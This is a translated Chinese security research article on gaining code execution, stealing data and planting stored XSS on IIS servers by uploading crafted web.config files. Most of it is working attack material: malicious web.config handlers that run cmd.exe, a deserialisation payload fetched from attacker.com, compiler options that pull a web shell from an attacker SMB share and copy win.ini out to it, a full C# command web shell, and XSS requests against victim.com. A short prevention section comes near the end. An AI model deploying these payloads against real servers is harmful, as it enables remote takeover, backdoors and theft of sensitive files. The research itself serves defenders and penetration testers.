


# web.config 文件上传技术研究 - 先知社区

### 介绍

这是我上传`web.config`系列文章中的第二篇，我在 2014 年完成了第一篇该系列的相关文章，在那篇文章中我描述了一种运行`ASP`的经典代码方法，即通过上传`web.config`文件来执行存储型 XSS 攻击。

在这篇文章中，我们专注于运行`web.config`文件本身，我在上一篇文章中介绍过如何在 IIS 上的应用程序中上传 web.config 技术。而本文中我的主要是使用`web.config`文件在服务器上执行代码或命令，并使用了技巧来利用存储型 XSS。

此处描述的技术分为两大类，其具体取决于是否可以在应用程序根目录或子文件夹、虚拟目录中上载`web.config`文件。如果不熟悉 IIS 中的虚拟目录和应用程序术语，请[参阅](https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/understanding-sites-applications-and-virtual-directories-on-iis)。

### 1.使用根目录或应用程序目录中的 web.config 执行命令

此方法非常具有破坏性，因为应用程序已经使用了将替换为我们的`web.config`文件。然而该文件没有所有必需的设置，例如数据库连接字符串或一些有效的程序集的引用。当应用程序可能使用了将要替换的`web.config`文件时，建议不要在实时网站上使用此技术。位于其他应用程序或虚拟目录中的 IIS 应用程序可能不使用`web.config`文件，通常比网站的根目录更安全。下面的图中显示了`testwebconfig`应用程序中的内部应用程序 anotherapp 的示例，该应用程序也位于默认网站内。

[](https://xzfile.aliyuncs.com/media/upload/picture/20190818001121-a77146a4-c109-1.png)

如果可以修改应用程序根目录中的`web.config`文件，则可以使用许多方法在服务器上执行命令。

我在这篇博文中列出了四个例子，如下所示。

#### 1.1 将 web.config 作为 ASPX 页面执行

这与第一篇文中提到的技术非常相似，但是当我们在应用程序的根目录中上传`web.config`文件时，我们有更多的控制权，我们可以使用托管处理程序将`web.config`文件作为`ASPX`页面运行。以下`web.config`文件显示了一个示例：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers accessPolicy="Read, Script, Write">
            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" modules="ManagedPipelineHandler" requireAccess="Script" preCondition="integratedMode" />
            <add name="web_config-Classic" path="web.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\Microsoft.NET\Framework64\v4.0.30319\aspnet_isapi.dll" requireAccess="Script" preCondition="classicMode,runtimeVersionv4.0,bitness64" />
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
            </requestFiltering>
        </security>
        <validation validateIntegratedModeConfiguration="false" />
    </system.webServer>
    <system.web>
        <compilation defaultLanguage="vb">
            <buildProviders> <add extension=".config" type="System.Web.Compilation.PageBuildProvider" /> </buildProviders>
        </compilation>
        <httpHandlers>
            <add path="web.config" type="System.Web.UI.PageHandlerFactory" verb="*" />
        </httpHandlers>
    </system.web>
</configuration>
<!-- ASP.NET code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

之后我们可以浏览`web.config`文件以将其作为`ASP.NET`页面运行。然而`XML`内容也可以从网上访问。也许更容易上传另一个带有允许扩展名的文件，例如`.config`、`.jpg`或`.txt`文件，并将其作为`.aspx`页面运行。

#### 1.2 使用 AspNetCoreModule 运行命令

我们也可以使用 ASP.NET 核心模块运行命令，如下所示：

```plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
      <handlers>
        <remove name="aspNetCore" />
         <add name="aspNetCore" path="backdoor.me" verb="*" modules="AspNetCoreModule" resourceType="Unspecified" />
      </handlers>
      <aspNetCore processPath="cmd.exe" arguments="/c calc"/>
    </system.webServer>
</configuration>
```

所述命令将通过浏览不需要存在于服务器上的`backdoor.me`页面来执行，这里可以使用`PowerShell`命令作为反向`shell`。

#### 1.3 使用系统秘钥

[https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/中所述，可以在\`web.config\`文件中设置\`machineKey\`元素，以滥用反序列化功能在服务器上运行代码和命令。](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/%E4%B8%AD%E6%89%80%E8%BF%B0%EF%BC%8C%E5%8F%AF%E4%BB%A5%E5%9C%A8%60web.config%60%E6%96%87%E4%BB%B6%E4%B8%AD%E8%AE%BE%E7%BD%AE%60machineKey%60%E5%85%83%E7%B4%A0%EF%BC%8C%E4%BB%A5%E6%BB%A5%E7%94%A8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8A%9F%E8%83%BD%E5%9C%A8%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E8%BF%90%E8%A1%8C%E4%BB%A3%E7%A0%81%E5%92%8C%E5%91%BD%E4%BB%A4%E3%80%82)

#### 1.4 使用 JSON\_AppService.axd

这是在`.NET Framework`中使用已知的反序列化问题在服务器上运行代码的一种方式。

在这种情况下，`web.config`文件如下所示：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.web.extensions>
        <scripting>
            <webServices>
                <authenticationService enabled="true" requireSSL="false" />  
            </webServices>
        </scripting>
    </system.web.extensions>

    <appSettings>
        <add key="aspnet:UseLegacyClientServicesJsonHandling" value="true" />
    </appSettings>

    <system.web>
        <membership defaultProvider="ClientAuthenticationMembershipProvider">
            <providers>
                <add name="ClientAuthenticationMembershipProvider" type="System.Web.ClientServices.Providers.ClientFormsAuthenticationMembershipProvider, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" serviceUri="http://attacker.com/payload?" />
            </providers>
        </membership>
    </system.web>
</configuration>
```

以下 JSON 显示攻击者网站`（http://attacker.com/payload）`上应该接受 POST 请求的 payload 页面：

```plain
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd',
            'Arguments':'/c calc'
        }
    }
}
```

上传`web.config`文件并在远程服务器上设置 payload 页面后，攻击者可以发送以下 HTTP 请求以在服务器上运行其代码和命令：

```plain
POST /testwebconfig/Authentication_JSON_AppService.axd/login HTTP/1.1
Host: victim.com
Content-Length: 72
Content-Type: application/json;charset=UTF-8

{"userName":"foo","password":"bar","createPersistentCookie":false}
```

应该注意的是，`Profile_JSON_AppService.axd`或`Role_JSON_AppService.axd`也可能在这里派上用场，但是需要在`web.config`中启用它们，并且需要调用合适的方法来触发反序列化。

### 2.使用子文件夹或虚拟目录中的 web.config 执行命令

虚拟目录中的`web.config`文件比应用程序文件夹根目录中的`web.config`更受限制。可以滥用以执行`AspNetCoreModule，machineKey，buildProviders和httpHandler`等命令不能在子文件夹中的 web.config 中使用。

在我之前在 2014 年发表的相关博客文章中，我发现了一种方法，当允许在虚拟目录中使用`ISAPI`模块时，将`web.config`文件作为`ASP`文件运行。如下所示：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

其他模块（例如用于 PHP 的模块）也可以在允许时进行类似地使用。但是，在正确配置 IIS 应用程序时，我们通常无法运行除`.NET`代码之外的任何内容。因此，我将引入更多技术。

#### 2.1 错误使用 compilerOptions 属性

我将使用以下 web.config 文件作为基本模板：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.web>
        <httpRuntime targetFramework="4.67.1"/>
        <compilation tempDirectory="" debug="True" strict="False" explicit="False" batch="True"
            batchTimeout="900" maxBatchSize="1000" maxBatchGeneratedFileSize="1000" numRecompilesBeforeAppRestart="15"
            defaultLanguage="c#" targetFramework="4.0" urlLinePragmas="False" assemblyPostProcessorType="">

            <assemblies>

            </assemblies>

            <expressionBuilders>

            </expressionBuilders>

            <compilers>
                <compiler language="c#"
                    extension=".cs;.config"
                    type="Microsoft.CSharp.CSharpCodeProvider,System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"
                    warningLevel="4" 
                    compilerOptions=''/>
            </compilers>
        </compilation>
    </system.web>
    <system.webServer>
        <handlers>
            <add name="web_config" path="web.config" verb="*" type="System.Web.UI.PageHandlerFactory" resourceType="File" requireAccess="Script" preCondition="integratedMode" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

可以将`compiler`元素的`type`属性设置为以下默认类型之一：

-   C#:\*

```plain
Microsoft.CSharp.CSharpCodeProvider,System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

这使用`csc.exe`命令进行编译。

VB.NET:

```plain
Microsoft.VisualBasic.VBCodeProvider, System, Version=2.0.3600.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

使用 vbc.exe 命令进行编译。

Jscript.NET:

```plain
Microsoft.JScript.JScriptCodeProvider, Microsoft.JScript, Version=7.0.3300.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a
```

这使用`jsc.exe`命令进行编译。

这些命令通常可以在`.NET`文件夹中找到。对于`.NET v4`，该文件夹将是：

```plain
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\
```

上面`web.config`模板文件中的`compilerOptions`属性的值将作为参数添加到编译器命令中。这里密文可以使用空格字符提供多个参数。

如果没有为编译器命令提供选项，则`compilerOptions`属性的值将被视为要编译的编译器的文件名。

`＃`字符为终止命令，`@`字符加载另一个文件，如[本文](https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/listed-alphabetically)中所述。

如果我们可以在编译`C＃，VB.NET或Jscript.NET`文件时找到执行命令的方法，那么可以通过编译可能来自远程共享驱动器或以前上传的静态文件的附加文件来轻松利用它。但是在对此进行研究时，我们找不到任何东西。

应该注意的是，如果`ASP.NET`页面存在于上传`web.config`文件的同一文件夹中，则在我们更改编译过程时，它们将使用我在此提供的示例进行工作。因此，如果只有一次上传`web.config`文件并且无法再次重写时，我们应该注意该文件的内容，确保`web.config`有效。

##### 2.1.1 创建 Web shell

以下字符串显示了`compilerOptions`属性，该属性可用于在`Web`目录中创建包含一些二进制数据的`Web shell`：

```plain
/resource:"\\KaliBoxIP\Public\webshell.txt" /out:"C:\appdata\wwwroot\myapp\webshell.aspx" #
```

使用上述设置浏览`web.config`文件后，将在请求的路径中创建具有`webshell.aspx`名称的二进制文件。在此处了解服务器上的应用程序路径非常重要。当显示`ASP.NET`失败的错误消息时，可以简单地通过错误来显示应用程序的路径。建议在另一个文件而不是`web.config`文件本身中创建一个错误，但是如果以后可以修改它，这里只是一个`web.config`文件，它只显示一个错误：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <customErrors mode="Off" />
        IDontExist!
    </system.web>
</configuration>
```

除了可以在创建`Web shell`之后更改`web.config`文件以删除`compilerOptions`属性以允许正常的编译过程之外，还应该在我们的`web.config`文件上传之外创建`Web shell`。

应该注意的是，`webshell.txt`中的代码将嵌入到包含二进制数据的`webshell.aspx`的中间。由于这不是`webshell`的副本，因此可以用作获取访问权限的第一阶段。

**无法访问 SMB 的解决方案**

如果目标无法通过`SMB`进行通信，则可以使用允许的扩展名上载`Web shell`，以将其包含在`/resource`选项中：

```plain
/resource:"C:\appdata\wwwroot\myapp\attachment\myshell.config" /out:"C:\appdata\wwwroot\myapp\webshell.aspx" #
```

##### 2.1.2 接管现有的 ASPX 文件

当`ASPX`文件存在于所上传`web.config`文件的同一文件夹中时，可以修改编译过程进行接管操作。

了解应用程序和虚拟目录对于使用此技术非常重要。我将使用以下示例解释这一点：

`web.config`文件可以在`C:\appdata\wwwroot\myapp\attachment\`上传，`file.aspx`也存在于同一路径中，可通过以下 URL 访问：

```plain
https://victim.com/myapp/attachment/file.aspx
```

现在可以使用以下编译器选项来接管此文件：

```plain
\\KaliBoxIP\Public\webshellcs.txt #
```

或者：

```plain
"C:\appdata\wwwroot\myapp\attachment\webshellcs.txt" #
```

`webshellcs.txt`文件的内容是：

```plain
namespace ASP
{
    using System;
    [System.Runtime.CompilerServices.CompilerGlobalScopeAttribute()]
    public class attachment_file_aspx : global::System.Web.UI.Page, System.Web.IHttpHandler
    {
        private void @__Render__control1(System.Web.UI.HtmlTextWriter @__w, System.Web.UI.Control parameterContainer)
        {
            if (!String.IsNullOrEmpty(Request["cmd"]))
            {
                System.Diagnostics.Process process = new System.Diagnostics.Process();
                process.StartInfo.FileName = Request["cmd"];
                process.StartInfo.Arguments = Request["arg"];
                process.StartInfo.UseShellExecute = false;
                process.StartInfo.RedirectStandardOutput = true;
                process.StartInfo.RedirectStandardError = true;
                process.Start();
                //* Read the output (or the error)
                string output = process.StandardOutput.ReadToEnd();
                @__w.Write("Result:<br><pre>");
                @__w.Write(output);
            }
            else
            {
                @__w.Write("Use:\"?cmd=cmd.exe&arg=/c dir\" as an example!");
            }
        }

        [System.Diagnostics.DebuggerNonUserCodeAttribute()]
        protected override void FrameworkInitialize()
        {
            this.SetRenderMethodDelegate(new System.Web.UI.RenderMethod(this.@__Render__control1));
        }
    }
}
```

##### 2.1.3 窃取内部文件

以下字符串显示 compilerOptions 属性：

```plain
/resource:c:\windows\win.ini /out:\\KaliBoxIP\Public\test.bin
```

在上载文件夹中打开现有 ASP.NET 页面后，将在包含`win.ini`文件的共享文件夹中创建`test.pdb和test.bin`文件。这对于获取应用程序的`web.config`文件尤其有用，因为它可能包含敏感数据，例如可以使用远程代码执行的机器密钥。

##### 2.1.4 窃取应用的更多数据

以下字符串显示 compilerOptions 属性：

```plain
/resource:\\KaliBoxIP\Public\test.txt -bugreport:\\KaliBoxIP\Public\foobar1.txt /errorreport:none
```

在该文件夹中打开现有`ASP.NET`页面后，这将在共享路径上创建一个大文件，该文件可能包含有关应用程序或其基础技术的敏感数据。

[](https://xzfile.aliyuncs.com/media/upload/picture/20190818001145-b584e318-c109-1.png)

显然，当路径已知并且可以远程下载文件时，也可以在同一 Web 服务器上创建此文件。

#### 2.2 接管上传的.NET 文件

以下 web.config 可用于接管现有的 Web 服务文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <webServices>
            <protocols>
                <add name="Documentation"/>
            </protocols>
            <wsdlHelpGenerator href="\\KaliBoxIP\Public\webshell.aspx"/>
        </webServices>
    </system.web>
</configuration>
```

这将从 SMB 共享加载 webshell.aspx 文件，并在打开该文件夹中的 ASMX 文件时执行它。

也可以重新映射.master 和.ascx 扩展，并像 ASMX 文件一样使用它们。上传这些文件的可能性高于其他 ASP.NET 扩展，例如`.aspx，.asmx，.ashx，.svc和.soap`，它们也可以使用相同的技术接管。

以下 web.config 文件显示了可以接管多个文件扩展名的示例：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <webServices>
            <protocols>
                <add name="Documentation"/>
            </protocols>
            <wsdlHelpGenerator href="\\KaliBoxIP\Public\webshell.aspx"/>
        </webServices>
    </system.web>
    <system.webServer>
        <handlers>
            <add name="remap_asmx1" path="*.ascx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx2" path="*.master" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx3" path="*.aspx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx4" path="*.ashx" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx5" path="*.svc" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
            <add name="remap_asmx6" path="*.soap" verb="*" type="System.Web.Script.Services.ScriptHandlerFactory, System.Web.Extensions, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <fileExtensions>
                    <remove fileExtension=".ascx" />
                    <remove fileExtension=".master" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

当`SMB`被阻止时，可能很难使用此技术，因为`wsdlHelpGenerator`元素的 href 属性中的文件扩展名很重要。

#### 2.3 存储 XSS

也可以创建存储型 XSS。当其他方法因任何原因不起作用时，这可能很有用。

在上文中讨论了通过上传`web.config`文件使应用受 XSS 攻击的一些方法。例如，当允许下载某些文件时，可以通过操作 mimetypes 进行 XSS 攻击。以下示例显示.txt 文件如何作为`.html`文件运行：

```plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
        <staticContent>
            <remove fileExtension=".txt" />
            <mimeMap fileExtension=".txt" mimeType="text/html" />
        </staticContent>
    </system.webServer>
</configuration>
```

在这篇博客文章中，还发现了两个新 ASP.NET 处理程序。

##### 2.3.1 使用 State Application 处理程序

StateApplication 处理程序是 System.Web.SessionState 命名空间内的一个内部类，用于缓存并且不应该直接从用户代码调用。使用任意文本替换任何现有文件的响应可能会被滥用。

以下 web.config 文件显示了一个示例，使用该示例使用 XSS 有效内容替换 web.config 的响应：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <handlers>
            <add name="web_config" path="*.config" verb="*" type="System.Web.SessionState.StateApplication,System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

要在缓存中创建存储的`XSS 525600`分钟（最大数量），应在上传`web.config`文件后发送以下请求：

```plain
PUT /testwebconfig/userfiles/web.config HTTP/1.1
Host: victim.com
Http_Timeout: 525600
Content-Length: 25

<script>alert(1)</script>
```

提取内容：

```plain
http://victim.com/testwebconfig/userfiles/web.config
```

删除内容：

```plain
DELETE /testwebconfig/userfiles/web.config HTTP/1.1
Host: victim.com
```

为了使用相同的名称创建多个 XSSd payload，可以将其他参数添加到 URL。例如：

```plain
Web.config/payload1
Or
Web.config\payload1
And
Web.config?payload2
```

##### 2.3.2 使用 Discovery Request Handler 处理程序

`System.Web.Services.Discovery`命名空间中的`DiscoveryRequestHandler`类可用于提供 XML 文件（实际使用中的.disco 文件）。这可能会被利用来从 XML 响应中执行 JavaScript 代码。

如果可以上传`web.config`文件，那么我们也可以上传包含带`JavaScript`代码的 XML 的`test.config`文件。以下`web.config`显示了一个示例，`test.config`文件将用作 XML 文件：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.webServer>
        <handlers>
            <add name="web_config" path="test.config" verb="*" type="System.Web.Services.Discovery.DiscoveryRequestHandler,System.Web.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" resourceType="File" requireAccess="Script" />
        </handlers>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="web.config" />
                </hiddenSegments>
                <fileExtensions>
                    <remove fileExtension=".config" />
                </fileExtensions>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```

`test.config`文件如下；

```plain
<?xml version="1.0" ?>
<script xmlns="http://www.w3.org/1999/xhtml">alert(1)</script>
```

我们应该注意`DynamicDiscoveryDocument`类型的 XML 文件不能用于 XSS，因为它将用于搜索当前目录以发现现有 Web 服务。

```plain
<dynamicDiscovery xmlns="urn:schemas-dynamicdiscovery:disco.2000-03-17">
    <exclude path="foobar"></exclude>
</dynamicDiscovery>
```

### 3 预防技术

第一道防线是使用白名单方法验证文件名，扩展名和内容。这可以通过仅允许文件扩展名并检查文件内容以确保它们使用有效格式来完成。

另一个建议是将文件保存在 Web 目录之外或数据库中。如今更安全的方式是将上传的文件存储在云中，例如在`Amazon S3`中。我们必须确保访问控制检查是合适且有效的，并且实现不会导致其他安全问题，例如不安全的对象引用或路径操作。

使用适当的 HTTP 标头还可以防止跨站点内容劫持攻击。

以下建议也可以通过上传 web.config 文件来加剧攻击：

-   使用预编译的应用程序会使脚本小子攻击您的应用程序变得更加困难
    
-   确保 Web 应用程序中的现有文件没有写入权限，包括 web.config 文件，尤其是在上传目录之外
    
-   监控网站上任何动态文件的创建，以检测潜在的攻击
    

如果我们无权访问代码，无法更改文件权限或无法更改应用程序的工作方式，那么仍可以在应用程序路径或网站根目录中使用 web.config 文件来缓解可能发生的某些攻击，并通过上传 web.config 文件：

如果可能，请确保禁用虚拟目录中的 web.config 文件。这可以通过更改`applicationHost.config`文件中的 allowSubDirConfig 属性来完成，该文件通常位于`C:\Windows\System32\inetsrv\Config\`

不应该被子目录中的其他`web.config`文件更改的敏感 web.config 元素也应该受到保护。这可以使用 web.config 文件中的`allowOverride`属性或锁定功能来完成。以下`web.config`文件显示了一个示例，可以在父目录中使用该示例来锁定在此研究中的某些威胁部分：

```plain
<?xml version="1.0" encoding="utf-8"?>
<configuration>
    <system.webServer>
        <handlers lockItem="true" />
        <staticContent lockItem="true" />
        <security>
            <requestFiltering lockItem="true" />
        </security>  
    </system.webServer>

    <system.web>
        <httpRuntime lockItem="true" />
        <compilation lockItem="true" />
        <webServices lockItem="true" />
    </system.web>

    <system.serviceModel>
        <behaviors lockItem="true" />
        <services lockItem="true" />
    </system.serviceModel>
</configuration>
```

### 4 后台工作

本节基本涵盖了我在研究过程中所做的工作，虽然这可能是这篇文章中最无聊的部分，但我认为对于想要继续这项研究的人来说这可能是有用的。

当`web.config`可以位于`IIS`应用程序的根目录中时，查找如何运行代码和命令是最简单的部分，因为我可以使用记录的`web.config`功能和我之前的研究。

但是，在子文件夹中上传`web.config`文件时探索新方法需要更多的探索工作。

#### 4.1 需求与资源

除了时间之外，我研究的主要资源是`ASP.NET Framework`源代码，`Visual Studio，Sysinternals Process Monitor，dnSpy，Telerik JustDecompile，IIS Web`服务器，Kali Linux 以及 Google 搜索。

我使用`Kali Linux`主要是为了拥有一个简单的未经身份验证的 SMB 共享，我可以进行读/写操作。最终为我提供 SMB v3 支持的`/etc/samba/smb.conf`文件是：

```plain
[global]
#workgroup = WORKGROUP
#server string = Samba Server XYZ
#netbios name = someRandomUbuntu
#security = user
map to guest = Bad User
#dns proxy = no
log file = /var/log/samba/%m
log level = 1
server min protocol = SMB3
client min protocol = SMB3
client max protocol = SMB3

[Public]
path = /tmp/smbshare/
writable = yes
guest ok = yes
read only = no
browsable = yes
create mode = 0777
directory mode = 0777
# force user = nobody
```

#### 4.2 编译器选项

在设置编译器选项时，我们基本上将参数传递给通过@字符传递的文件中的编译器（csc.exe，vbc.exe 或 jsc.exe）。虽然命令注入会立刻产生在我们的脑海中，但它是无效的，我无法使用它运行另一个命令。

有两种可能导致命令执行的途径比我在本研究中发现的更容易：

编译特定文件时的代码执行  
查找可以依次运行代码或命令的参数  
。 -analyzer 选项对于 C＃编译器来说非常有前景，但是.NET 执行的 csc.exe 文件中缺少它。

#### 4.3 探索新的处理程序

正如在本文中可以看到的那样，识别可以在`web.config`文件中处理的所有 HTTP 处理程序非常重要。这是通过搜索实现 IHttpHandler，IHttpHandlerFactory 和 IHttpHandlerFactory2 的类来完成的。

以下是在浏览器中轻松查看它们的方法：

[https://referencesource.microsoft.com/#System.Web/IHttpHandler.cs,62c4e10ee7e6cd36,referen](https://referencesource.microsoft.com/#System.Web/IHttpHandler.cs,62c4e10ee7e6cd36,references)[ces](https://referencesource.microsoft.com/#System.Web/IHttpHandler.cs,62c4e10ee7e6cd36,references)

[https://referencesource.microsoft.com/#System.Web/IHttpHandlerFactory.cs,8437c9ce8bcd1bda,references](https://referencesource.microsoft.com/#System.Web/IHttpHandlerFactory.cs,8437c9ce8bcd1bda,references)

[https://referencesource.microsoft.com/#System.Web/IHttpHandlerFactory.cs,21cd2fd2bb57b501,references](https://referencesource.microsoft.com/#System.Web/IHttpHandlerFactory.cs,21cd2fd2bb57b501,references)

应该注意的是，有时新的处理程序也可以从实现中派生出来。并且只需要很少的更改。

ASP.NET 使用文件扩展名来检测其类型，如果无法获得 Web 服务所需的正确类型，则需要将新扩展名添加到 buildProviders 元素中。但是，buildProviders 元素只能由应用程序设置，否则会显示以下错误：

```plain
The element 'buildProviders' cannot be defined below the application level.
```

此保护已在.NET Framework 中的 CompilationSection.cs 的 PostDeserialize() 方法中编码，而不是在 machine.config 文件中：

[https://referencesource.microsoft.com/#System.Web/Configuration/CompilationSection.cs,904](https://referencesource.microsoft.com/#System.Web/Configuration/CompilationSection.cs,904)

有一些方法可以使用预定义的扩展在 IIS 上执行命令，但本研究的重点是使用可能允许上载的新扩展。

可以在`ASP.NET`配置文件夹中的主`web.config`中看到预定义的 buildProviders 列表（例如 C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\Config\\web.config)）。

#### 4.4 临时编译的文件

临时文件和编译文件通常会复制到`.NET Framework`中的临时目录中，例如：

```plain
C:\Windows\Microsoft.NET\Framework64\[version]\Temporary ASP.NET Files\[appname]\[hash]\[hash]
```

其中一些文件将立即被删除，我监视它们的最简单方法是删除我的应用程序使用的临时目录上的所有用户的删除权限。当不再需要时，可以轻松恢复。

我们可以在那里创建文件，我们应该能够替换该应用程序的现有文件以在理论上执行服务器上的代码。在实践中，所有这些文件在其名称中使用随机值，并且需要使用例如要分析文件名来窃取它们。我还没有研究`.NET Framework`何时创建新的 DLL 文件，但理论上应该可以重写这些现有的 DLL 文件来接管应用程序中现有.NET 文件。

### 参考

\[1\] [https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

\[2\] [https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/understanding-sites-applications-and-virtual-directories-on-iis](https://docs.microsoft.com/en-us/iis/get-started/planning-your-iis-architecture/understanding-sites-applications-and-virtual-directories-on-iis)

\[3\] [https://soroush.secproject.com/blog/2019/07/iis-application-vs-folder-detection-during-blackbox-testing/](https://soroush.secproject.com/blog/2019/07/iis-application-vs-folder-detection-during-blackbox-testing/)

\[4\] [https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)

\[5\] [https://www.nccgroup.trust/uk/our-research/use-of-deserialisation-in-.net-framework-methods-and-classes/](https://www.nccgroup.trust/uk/our-research/use-of-deserialisation-in-.net-framework-methods-and-classes/)

\[6\] [https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/listed-alphabetically](https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/listed-alphabetically)

\[7\] [https://www.owasp.org/index.php/Unrestricted\_File\_Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload)

\[8\] [https://github.com/nccgroup/CrossSiteContentHijacking](https://github.com/nccgroup/CrossSiteContentHijacking)

\[9\] [https://techcommunity.microsoft.com/t5/IIS-Support-Blog/How-to-prevent-web-config-files-to-be-overwritten-by-config/ba-p/297627](https://techcommunity.microsoft.com/t5/IIS-Support-Blog/How-to-prevent-web-config-files-to-be-overwritten-by-config/ba-p/297627)

\[10\] [https://weblogs.asp.net/jongalloway/10-things-asp-net-developers-should-know-about-web-config-inheritance-and-overrides](https://weblogs.asp.net/jongalloway/10-things-asp-net-developers-should-know-about-web-config-inheritance-and-overrides)

\[11\] [https://docs.microsoft.com/en-us/previous-versions/dotnet/netframework-4.0/ms228167(v=vs.100)](https://docs.microsoft.com/en-us/previous-versions/dotnet/netframework-4.0/ms228167(v=vs.100))

```plain
本文为翻译文章，来自：https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/
```